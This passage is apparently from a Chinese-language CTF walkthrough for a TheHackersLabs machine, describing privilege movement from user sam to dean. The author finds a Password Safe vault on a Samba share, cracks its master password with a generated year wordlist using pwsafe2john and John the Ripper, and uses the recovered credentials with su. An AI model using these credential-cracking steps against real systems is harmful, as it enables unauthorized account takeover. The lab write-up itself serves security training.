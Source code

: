 ## 3. sam -> dean

成为`sam`用户后，查看`/etc/samba/smb.conf`文件，发现在多个Samba共享中，`sam`可以访问 `[CONFIDENCIALES]` 和 `[RESPALDOS_IT]`。

```bash
sam@TheHackersLabs-Gyhabogados:/tmp$ cat /etc/samba/smb.conf
...
[RESPALDOS_IT]
  comment = Respaldos IT
  path = /mnt/RESPALDOS_IT
  ...
  valid users = sam, dean
```

检查 `/mnt/RESPALDOS_IT` 目录内容。

```bash
sam@TheHackersLabs-Gyhabogados:/mnt/RESPALDOS_IT$ ls -al
total 16
drwxr-x--- 2 root abogados 4096 Dec  8  2024 .
drwxr-xr-x 5 root root     4096 Dec  8  2024 ..
-rw-r--r-- 1 root abogados  520 Dec  8  2024 credenciales.psafe3
-rw-r--r-- 1 root abogados  582 Dec  7  2024 IMPORTANTE.txt

sam@TheHackersLabs-Gyhabogados:/mnt/RESPALDOS_IT$ cat IMPORTANTE.txt
...
La contraseña maestra es similar a la que te proporcioné en la bienvenida: "ChevyImpala1967". Sin embargo, en lugar de "1967", deberás usar un año diferente.
```

发现一个`PasswordSafe`的密码库文件 `credenciales.psafe3` 和一个提示文件。提示表明主密码格式为 `ChevyImpala` 加上一个年份。

将`credenciales.psafe3`传输到Kali，并生成一个年份字典进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ seq -f "ChevyImpala%g" 1967 2025 > p
└─$ pwsafe2john credenciales.psafe3 > hash
└─$ john --wordlist=p hash
...
ChevyImpala1995  (credencial)
...
```

密码库主密码为 `ChevyImpala1995`。使用`pwsafe`等工具打开密码库，发现其中存储了`dean`用户的凭据。

> **密码库内容:**
> dean:MasterOfPuppets1986

切换到`dean`用户。

```bash
sam@TheHackersLabs-Gyhabogados:/mnt/RESPALDOS_IT$ su dean
Password: MasterOfPuppets1986
dean@TheHackersLabs-Gyhabogados:/mnt/RESPALDOS_IT$ id
uid=1001(dean) gid=1006(abogados) groups=1006(abogados),100(users)
```
